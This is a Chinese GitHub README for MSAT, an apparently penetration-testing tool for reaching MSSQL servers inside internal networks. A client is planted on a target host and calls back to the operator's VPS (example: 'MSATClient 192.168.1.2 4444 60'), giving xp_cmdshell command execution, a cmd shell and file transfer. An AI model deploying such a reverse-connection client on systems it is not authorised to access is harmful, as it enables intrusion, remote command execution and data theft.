 # MSAT

MSAT是一款MSSQL正反向连接可视化工具。

开发原因是遇到了较多的sql server数据库，但是大多处于内网。访问时都需要进入内网才能连接操作。在一番寻找之后没有发现合适的工具，于是本着学习.NET的打算，一通乱写，整出了这么个破玩意。勉强可以用一用。应该没有造车轮吧。由于使用到了Dev插件，导致服务端软件较大。命令执行部分对流量进行了一些简单加密。

### 使用方法

软件分为两个部分，客户端和服务端。

#### [客户端](https://github.com/GabgM/MSATClient)
.NET Framework版本： 3.5

将客户端上传到目标主机后，使用cmd打开。

```cmd
MSATClient ip port [time]
```

ip: VPS的IP地址

port：设置的VPS监听端口

time：可选参数，如果省略表示持续运行。加参数表示固定时间后自动断开socket连接，时间单位为分钟。注意：不会删除客户端持续，只是断开连接。

例：

```cmd
MSATClient 192.168.1.2 4444 60
表示连接192.168.1.2的4444端口，并且在60分钟后自动断开连接
```

#### [服务端](https://github.com/GabgM/MSATServer)
.NET Framework版本： 4.7.2

将压缩包解压，打开MSATServer.exe即可。

![](https://github.com/GabgM/MSAT/raw/master/image/0.PNG)

服务端有两种Socket运行方式。

①、当HOST为0.0.0.0时，监听本地端口，等待客户端反向连接。

②、当HOST不为0.0.0.0时，正向连接填写的host，搭配LCX使用，与客户端连接。

第二种连接方式存在一定的问题，只能勉强使用。

连接完成后，点击登陆按钮，连接数据库就可以正常使用了。

![](https://github.com/GabgM/MSAT/raw/master/image/1.PNG)

注意：数据库结构目前貌似只能是sa用户才能正常获取。当进行数据查询时，客户端的CPU占用会大幅度增加(25%左右)，用于对数据的处理。

当目标开启xp_cmdshell功能后，可以直接输入命令执行。

![](https://github.com/GabgM/MSAT/raw/master/image/2.PNG)

除了MSSQL的使用，还额外增加了cmd，和文件传输的功能。

下载文件，输入客户端文件的绝对路径即可。

上传文件，点击按钮选择即可。

![](https://github.com/GabgM/MSAT/raw/master/image/3.PNG)

最后，当需要退出程序时，会有两种退出方式。

![](https://github.com/GabgM/MSAT/raw/master/image/4.PNG)

点击是，会在退出服务端的同时关闭客户端。

点击否，只会退出服务端。



### 最后
本软件仅用于学习交流！
